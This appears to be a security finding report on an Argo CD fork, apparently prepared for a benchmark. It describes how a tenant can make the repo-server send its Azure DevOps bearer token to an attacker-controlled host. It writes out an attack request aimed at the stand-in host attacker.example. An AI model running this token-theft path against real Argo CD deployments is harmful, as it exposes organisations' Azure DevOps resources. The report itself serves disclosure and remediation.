

# Tenant git repository with useAzureWorkloadIdentity sends repo-server's Azure DevOps token to any host

| Field | Value |
|---|---|
| ID | `find_01EgFGXfURUTQjVd4m7KkeC3` |
| Severity | **High** |
| Status | open |
| CWE | CWE-522 — Insufficiently protected credentials |
| Created | 2026-10-27T21:29:57.796434Z |
| Claude Security | https://claude.ai/security/findings/find_01EgFGXfURUTQjVd4m7KkeC3 |

## Description

A tenant with project-scoped permission to create repositories can steal a live Azure DevOps token for the repo-server's own Azure identity. The tenant sets `useAzureWorkloadIdentity` on a repository whose URL points at a host they control. This works when the repo-server has an Azure workload identity. `GetGitCreds` never checks the URL's host, and `ValidateAccess` only checks the `repositories, create` permission.

1. **tenant** sends a validate request for a repository on their own host. The request names the attacker's URL, sets `project` and sets `useAzureWorkloadIdentity: true`. `ValidateAccess` checks only `repositories, create, <project>/<url>`, copies `Repo`, `Insecure` and `UseAzureWorkloadIdentity` from the request, and calls `testRepo` at once. ([`server/repository/repository.go:683-729`](https://github.com/cx-benchmark/argo-cd/blob/b7bc418289a96130340ea79964c4491b416c14f2/server/repository/repository.go#L683-L729))
2. **the repo-server's `TestRepository`** defaults the type to git and builds credentials from the record. It calls `repo.GetGitCreds(...)` and then `git.TestRepo`. ([`reposerver/repository/repository.go:3255-3264`](https://github.com/cx-benchmark/argo-cd/blob/b7bc418289a96130340ea79964c4491b416c14f2/reposerver/repository/repository.go#L3255-L3264))
3. **`GetGitCreds`** selects the workload identity credentials because the flag is set. It never looks at `repo.Repo`, and `HasCredentials()` counts the flag as a credential, so no credential template is needed. ([`pkg/apis/application/v1alpha1/repository_types.go:292-294`](https://github.com/cx-benchmark/argo-cd/blob/b7bc418289a96130340ea79964c4491b416c14f2/pkg/apis/application/v1alpha1/repository_types.go#L292-L294))
4. **`git.TestRepo`** runs `LsRemote("HEAD")` against the attacker's URL. This reaches `getRefs`, which does the ls-remote against `m.repoURL`. ([`util/git/git.go:135-145`](https://github.com/cx-benchmark/argo-cd/blob/b7bc418289a96130340ea79964c4491b416c14f2/util/git/git.go#L135-L145))
5. **the workload identity credentials** request an Entra token for the repo-server pod's identity. The token has the Azure DevOps scope `499b84ac-1321-427f-aa17-267ca6975798/.default`. It comes from `azidentity.NewDefaultAzureCredential`, and no host is involved in this step. ([`util/git/creds.go:1086-1128`](https://github.com/cx-benchmark/argo-cd/blob/b7bc418289a96130340ea79964c4491b416c14f2/util/git/creds.go#L1086-L1128))
6. **`getRefs`** sends the token as an `Authorization: Bearer` header to the attacker's host. `newAuth` wraps the token in `githttp.TokenAuth`, and the ls-remote goes to whatever host the record names. ([`util/git/client.go:898-920`](https://github.com/cx-benchmark/argo-cd/blob/b7bc418289a96130340ea79964c4491b416c14f2/util/git/client.go#L898-L920))
7. **tenant** replays the captured token against Azure DevOps. The token works until its `exp` time. The tenant can repeat the validate call to get fresh tokens.

## Assessment

The attacker is a tenant whose project role grants `repositories, create` on `<proj>/*`, the documented project self-service permission. The repo-server must hold an Azure identity, as in the documented Azure Repos workload-identity setup. The attacker runs an HTTPS or HTTP listener and calls `POST /api/v1/repositories/https%3A%2F%2Fattacker.example%2Fr.git/validate` with `project: <proj>` and `useAzureWorkloadIdentity: true`. A second route is a project-scoped `CreateRepository`, which stores the same record without testing it. Later fetches for the project's Applications then repeat the leak. On the git CLI path the token goes out through `ARGOCD_GIT_BEARER_AUTH_HEADER`, which becomes `http.extraHeader`. With an `http://` URL, or with `insecure: true`, the token also travels in cleartext or to a peer whose certificate is not verified.

Impact: The attacker obtains a live bearer token for the repo-server's Azure identity, and can renew it on demand. Argo CD's own data and service are not modified.

Subsequent-system impact: Azure DevOps accepts the token as that identity. The attacker can read every Azure Repos repository and other Azure DevOps resource the identity can see, including those of other teams and projects. Writes such as push, pipelines and work items depend on Azure DevOps permissions the code does not show, so write access is limited to what the identity has been granted.

## Recommendation

(1) `GetGitCreds` hands the repo-server's ambient Azure identity to any git URL a repository record names. The Azure DevOps bearer token goes to that host with no check that it is Azure DevOps and no requirement for verified TLS.

Fix criteria: Workload-identity git credentials are used only for Azure DevOps endpoints (or an admin-configured allowlist), over HTTPS with certificate verification. For any other host, credential creation fails before any token is requested. Calling `ValidateAccess` with `useAzureWorkloadIdentity: true` and `https://attacker.example/r.git`, or with an `http://` URL or `insecure: true`, produces no token request and no request carrying an `Authorization` header.

(2) A caller with only project-scoped `repositories, create` can set `useAzureWorkloadIdentity` on a repository it tests or creates. That lets the caller spend Argo CD's own cloud identity.

Fix criteria: Enabling ambient workload identity on a repository requires an administrative privilege, or is limited to admin-managed records or projects an administrator has explicitly enabled. A project-role token cannot validate or create a project-scoped repository with the flag set.

## Evidence

**https://github.com/cx-benchmark/argo-cd**

- [`pkg/apis/application/v1alpha1/repository_types.go:292-294`](https://github.com/cx-benchmark/argo-cd/blob/b7bc418289a96130340ea79964c4491b416c14f2/pkg/apis/application/v1alpha1/repository_types.go#L292-L294)
- [`util/git/client.go:542-549`](https://github.com/cx-benchmark/argo-cd/blob/b7bc418289a96130340ea79964c4491b416c14f2/util/git/client.go#L542-L549)
- [`util/git/client.go:898-920`](https://github.com/cx-benchmark/argo-cd/blob/b7bc418289a96130340ea79964c4491b416c14f2/util/git/client.go#L898-L920)
- [`util/git/creds.go:1086-1128`](https://github.com/cx-benchmark/argo-cd/blob/b7bc418289a96130340ea79964c4491b416c14f2/util/git/creds.go#L1086-L1128)
- [`util/git/client.go:2176-2185`](https://github.com/cx-benchmark/argo-cd/blob/b7bc418289a96130340ea79964c4491b416c14f2/util/git/client.go#L2176-L2185)
- [`util/git/workaround.go:27-60`](https://github.com/cx-benchmark/argo-cd/blob/b7bc418289a96130340ea79964c4491b416c14f2/util/git/workaround.go#L27-L60)
- [`server/repository/repository.go:683-729`](https://github.com/cx-benchmark/argo-cd/blob/b7bc418289a96130340ea79964c4491b416c14f2/server/repository/repository.go#L683-L729)
- [`reposerver/repository/repository.go:3255-3264`](https://github.com/cx-benchmark/argo-cd/blob/b7bc418289a96130340ea79964c4491b416c14f2/reposerver/repository/repository.go#L3255-L3264)
- [`util/git/git.go:135-145`](https://github.com/cx-benchmark/argo-cd/blob/b7bc418289a96130340ea79964c4491b416c14f2/util/git/git.go#L135-L145)
- [`pkg/apis/application/v1alpha1/repository_types.go:152-154`](https://github.com/cx-benchmark/argo-cd/blob/b7bc418289a96130340ea79964c4491b416c14f2/pkg/apis/application/v1alpha1/repository_types.go#L152-L154)
- [`server/repository/repository.go:436-467`](https://github.com/cx-benchmark/argo-cd/blob/b7bc418289a96130340ea79964c4491b416c14f2/server/repository/repository.go#L436-L467)
- [`util/workloadidentity/workloadidentity_cgo.go:17-35`](https://github.com/cx-benchmark/argo-cd/blob/b7bc418289a96130340ea79964c4491b416c14f2/util/workloadidentity/workloadidentity_cgo.go#L17-L35)

